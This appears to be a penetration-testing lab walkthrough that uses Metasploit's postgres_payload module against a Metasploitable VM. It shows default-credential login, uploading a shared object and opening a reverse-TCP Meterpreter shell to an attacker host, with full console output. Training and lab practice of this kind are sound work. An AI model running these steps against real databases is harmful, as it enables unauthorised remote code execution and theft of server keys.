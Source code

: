 *Exploiting Port 5432 (PostgreSQL)

- PostgreSQL is associated with SQL is runs on port 5432 and we have a great little exploit that can be used here.

# Basic Information
- PostgreSQL is an open source object-relational database system that uses and extends the SQL language.

- Default port: 5432, and if this port is already in use it seems that postgresql will use the next port (5433 probably) which is not in use.

------------------------
PORT     STATE SERVICE
5432/tcp open  pgsql
------------------------

- On some default Linux installations of PostgreSQL, the Postgres service account may write to the /tmp directory and may source UDF Shared Libraries from there as well, allowing execution of arbitrary code. This module compiles a Linux shared object file, uploads it to the target host via the UPDATE pg_largeobject method of binary injection, and creates a UDF (user defined function) from that shared object. Because the payload is run as the shared object’s constructor, it does not need to conform to specific Postgres API versions.



*Steps to reproduce:

# first open msfconsole

- use below exploit

msf > use exploit/linux/postgres/postgres_payload



msf6 > search postgresql

Matching Modules
================

   #   Name                                                        Disclosure Date  Rank       Check  Description
   -   ----                                                        ---------------  ----       -----  -----------
   0   auxiliary/server/capture/postgresql                                          normal     No     Authentication Capture: PostgreSQL
   1   post/linux/gather/enum_users_history                                         normal     No     Linux Gather User History
   2   exploit/multi/http/manage_engine_dc_pmp_sqli                2014-06-08       excellent  Yes    ManageEngine Desktop Central / Password Manager LinkViewFetchServlet.dat SQL Injection
   3   auxiliary/admin/http/manageengine_pmp_privesc               2014-11-08       normal     Yes    ManageEngine Password Manager SQLAdvancedALSearchResult.cc Pro SQL Injection
   4   exploit/multi/postgres/postgres_copy_from_program_cmd_exec  2019-03-20       excellent  Yes    PostgreSQL COPY FROM PROGRAM Command Execution
   5   exploit/multi/postgres/postgres_createlang                  2016-01-01       good       Yes    PostgreSQL CREATE LANGUAGE Execution
   6   auxiliary/scanner/postgres/postgres_dbname_flag_injection                    normal     No     PostgreSQL Database Name Command Line Flag Injection
   7   auxiliary/scanner/postgres/postgres_login                                    normal     No     PostgreSQL Login Utility
   8   auxiliary/admin/postgres/postgres_readfile                                   normal     No     PostgreSQL Server Generic Query
   9   auxiliary/admin/postgres/postgres_sql                                        normal     No     PostgreSQL Server Generic Query
   10  auxiliary/scanner/postgres/postgres_version                                  normal     No     PostgreSQL Version Probe
   11  exploit/linux/postgres/postgres_payload                     2007-06-05       excellent  Yes    PostgreSQL for Linux Payload Execution
   12  exploit/windows/postgres/postgres_payload                   2009-04-10       excellent  Yes    PostgreSQL for Microsoft Windows Payload Execution
   13  auxiliary/admin/http/rails_devise_pass_reset                2013-01-28       normal     No     Ruby on Rails Devise Authentication Password Reset
   14  post/linux/gather/vcenter_secrets_dump                      2022-04-15       normal     No     VMware vCenter Secrets Dump


Interact with a module by name or index. For example info 14, use 14 or use post/linux/gather/vcenter_secrets_dump                                                                          

msf6 > use 11
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/postgres/postgres_payload) > show options

Module options (exploit/linux/postgres/postgres_payload):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DATABASE  template1        yes       The database to authenticate against
   PASSWORD  postgres         no        The password for the specified username. Leave blank
                                         for a random password.
   RHOSTS                     yes       The target host(s), see https://docs.metasploit.com/
                                        docs/using-metasploit/basics/using-metasploit.html
   RPORT     5432             yes       The target port
   USERNAME  postgres         yes       The username to authenticate as
   VERBOSE   false            no        Enable verbose output


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux x86



View the full module info with the info, or info -d command.

msf6 exploit(linux/postgres/postgres_payload) > set RHOSTS 192.168.0.102
RHOSTS => 192.168.0.102
msf6 exploit(linux/postgres/postgres_payload) > show options

Module options (exploit/linux/postgres/postgres_payload):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DATABASE  template1        yes       The database to authenticate against
   PASSWORD  postgres         no        The password for the specified username. Leave blank
                                         for a random password.
   RHOSTS    192.168.0.102    yes       The target host(s), see https://docs.metasploit.com/
                                        docs/using-metasploit/basics/using-metasploit.html
   RPORT     5432             yes       The target port
   USERNAME  postgres         yes       The username to authenticate as
   VERBOSE   false            no        Enable verbose output


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux x86



View the full module info with the info, or info -d command.

msf6 exploit(linux/postgres/postgres_payload) > set LHOST 192.168.0.114
LHOST => 192.168.0.114
msf6 exploit(linux/postgres/postgres_payload) > run

[*] Started reverse TCP handler on 192.168.0.114:4444 
[*] 192.168.0.102:5432 - PostgreSQL 8.3.1 on i486-pc-linux-gnu, compiled by GCC cc (GCC) 4.2.3 (Ubuntu 4.2.3-2ubuntu4)
[*] Uploaded as /tmp/bPjSyyKr.so, should be cleaned up automatically
[*] Sending stage (1017704 bytes) to 192.168.0.102
[*] Meterpreter session 1 opened (192.168.0.114:4444 -> 192.168.0.102:34072) at 2023-02-27 10:31:37 +0530

meterpreter > sysinfo
Computer     : metasploitable.localdomain
OS           : Ubuntu 8.04 (Linux 2.6.24-16-server)
Architecture : i686
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux 
meterpreter > shell
Process 5438 created.
Channel 1 created.
ls
PG_VERSION
base
global
pg_clog
pg_multixact
pg_subtrans
pg_tblspc
pg_twophase
pg_xlog
postmaster.opts
postmaster.pid
root.crt
server.crt
server.key




